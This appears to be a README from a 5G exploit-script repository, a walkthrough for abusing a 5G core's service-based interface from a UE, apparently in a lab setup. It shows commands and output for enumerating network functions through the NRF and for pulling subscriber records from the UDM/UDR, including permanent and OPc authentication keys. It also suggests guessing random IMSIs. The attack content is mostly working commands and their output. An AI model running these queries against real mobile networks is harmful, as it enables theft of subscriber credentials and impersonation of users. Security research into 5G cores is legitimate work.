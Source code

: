 # The service based interface as an attack vector

## Finding functions of IP addresses 

After a succesfull NMAP scan you probably have a range of ip addresses that you suspect to be a NFs. You can use the SBI to find out which is a NRF and from there what the other NFs are.

```console
user@ue_vm:~/5G/UE_VM/Exploit_Scripts/SBI$ ./find_nrf.sh -n <list of suspected nrfs> -i <interface>
```

## Checking NFs

If you ask the nrf it will respond with all the registered nfs.

```console
user@ue_vm:~/UERANSIM/build$ ./nr-binder 10.45.0.29 nghttp http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances
{
	"_links":	{
		"items":	[{
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/4424e10c-b91f-41ed-b63c-6de5d08235f5"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/(null)"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/43d16e14-b91f-41ed-b49c-f98481dc4b43"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/44cae8fe-b91f-41ed-b183-37f999dfcad0"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/443fb23e-b91f-41ed-a76b-27c3b6dd6eb0"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/4480ec36-b91f-41ed-bbb3-f312db251f3b"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/445bb7a4-b91f-41ed-807f-159b80cdce04"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/43ccaa6e-b91f-41ed-9c82-59e9ae72412b"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/44b4ba20-b91f-41ed-bcf2-15223ef57432"
			}, {
				"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/4495ab30-b91f-41ed-937f-9fe1903c6cb7"
			}],
		"self":	{
			"href":	"http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances"
		}
	}
}

```

Now we can check every indvidual uri and find out more about the NFs, here we choose a single href and see what we get.

```console
user@ue_vm:~/UERANSIM/build$  ./nr-binder 10.45.0.29 nghttp http://10.0.8.1:7777/nnrf-nfm/v1/nf-instances/43ccaa6e-b91f-41ed-9c82-59e9ae72412b
{
	"nfInstanceId":	"43ccaa6e-b91f-41ed-9c82-59e9ae72412b",
	"nfType":	"AMF",
	"nfStatus":	"REGISTERED",
	"heartBeatTimer":	10,
	"ipv4Addresses":	["10.0.3.1"],
	"allowedNfTypes":	["SMF", "SCP"],
	"priority":	0,
	"capacity":	100,
	"load":	0,
	"nfServiceList":	{
		"43ccd6d8-b91f-41ed-9c82-59e9ae72412b":	{
			"serviceInstanceId":	"43ccd6d8-b91f-41ed-9c82-59e9ae72412b",
			"serviceName":	"namf-comm",
			"versions":	[{
					"apiVersionInUri":	"v1",
					"apiFullVersion":	"1.0.0"
				}],
			"scheme":	"http",
			"nfServiceStatus":	"REGISTERED",
			"ipEndPoints":	[{
					"ipv4Address":	"10.0.3.1",
					"port":	7777
				}],
			"allowedNfTypes":	["SMF"],
			"priority":	0,
			"capacity":	100,
			"load":	0
		}
	},
	"nfProfileChangesSupportInd":	true
}
```

The script ```find_nfs.sh``` does the top two actions together, requests the nrf for all registered nfs and then asks for more information on each.

```console
user@ue_vm:~/5G/UE_VM/Exploit_Scripts/SBI$ ./check_nr.sh -n <nrf_ip> -i <interface> 
```

Now we have the addresses functions and various other information of all NFs connected to the nrf.


## Checking UEs

If we have the UE imsis we can find out really everything we could need to know about a particular UE. Even their slice, dnn, encPermanentKey, sequenceNumber, and encOpcKey information. Everything we need to use their data for a connection. If you dont know their IMSI you can just test random imsis until you find one.

```console
user@ue_vm:~/5G/UE_VM/Exploit_Scripts/SBI$ ./check_ue.sh -m <udm_ip> -r <udr_ip> -i <interface> -u <ue_imsi> 
nghttp http://10.0.15.1:7777/nudm-sdm/v2/imsi-901700000000001/smf-select-data

{
	"subscribedSnssaiInfos":	{
		"{\n\t\"sst\":\t1\n}":	{
			"dnnInfos":	[{
					"dnn":	"internet",
					"defaultDnnIndicator":	true
				}]
		}
	}
} nghttp http://10.0.15.1:7777/nudm-sdm/v2/imsi-901700000000001/am-data

{
	"subscribedUeAmbr":	{
		"uplink":	"1048576 Kbps",
		"downlink":	"1048576 Kbps"
	},
	"nssai":	{
		"defaultSingleNssais":	[{
				"sst":	1
			}]
	}
}
 nghttp http://10.0.15.1:7777/nudm-sdm/v2/imsi-901700000000001/ue-context-in-smf-data

{
}
 nghttp http://10.0.15.1:7777/nudm-sdm/v2/imsi-901700000000001/sm-data?dnn=internet&single-nssai={"sst":1}

[{
		"singleNssai":	{
			"sst":	1
		},
		"dnnConfigurations":	{
			"internet":	{
				"pduSessionTypes":	{
					"defaultSessionType":	"IPV4V6",
					"allowedSessionTypes":	["IPV4", "IPV6", "IPV4V6"]
				},
				"sscModes":	{
					"defaultSscMode":	"SSC_MODE_1",
					"allowedSscModes":	["SSC_MODE_1", "SSC_MODE_2", "SSC_MODE_3"]
				},
				"5gQosProfile":	{
					"5qi":	9,
					"arp":	{
						"priorityLevel":	8,
						"preemptCap":	"NOT_PREEMPT",
						"preemptVuln":	"NOT_PREEMPTABLE"
					},
					"priorityLevel":	8
				},
				"sessionAmbr":	{
					"uplink":	"1048576 Kbps",
					"downlink":	"1048576 Kbps"
				}
			}
		}
	}]
 nghttp http://10.0.16.1:7777/nudr-dr/v1/subscription-data/imsi-901700000000001/authentication-data/authentication-subscription

{
	"authenticationMethod":	"5G_AKA",
	"encPermanentKey":	"465b5ce8b199b49faa5f0a2ee238a6bc",
	"sequenceNumber":	{
		"sqn":	"000000001fc1"
	},
	"authenticationManagementField":	"8000",
	"encOpcKey":	"e8ed289deba952e4283b54e88e6183ca"
}

```
